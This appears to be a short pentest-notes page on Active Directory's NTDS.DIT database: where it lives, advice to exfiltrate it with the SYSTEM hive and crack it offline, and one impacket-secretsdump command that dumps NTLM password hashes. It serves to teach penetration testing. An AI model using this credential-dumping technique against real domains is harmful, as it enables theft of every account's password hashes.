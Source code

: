 # NTDS Tom Foolery

## Introduction

NTDS, specifically the NTDS.DIT file is not just a file within Active Directory; it is the core of the entire infrustructure. It serves as a centralized repository for all the domain’s objects and their associated information.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## NTDS.DIT Location

The NTDS.DIT file is located typically at: `C:\Windows\NTDS\Ntds.dit`. Though Administrators can specify alternate locations on setup.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Extracting Password Hashes

Once we have located NTDS.DIT & SYSTEM, we can exfiltrate the file back to our host and crack if offline.&#x20;

### Impacket-Secretsdump

```bash
kali@kali$ impacket-secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL -outputfile ntlm-extract
```

## The only thing left to do is:

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
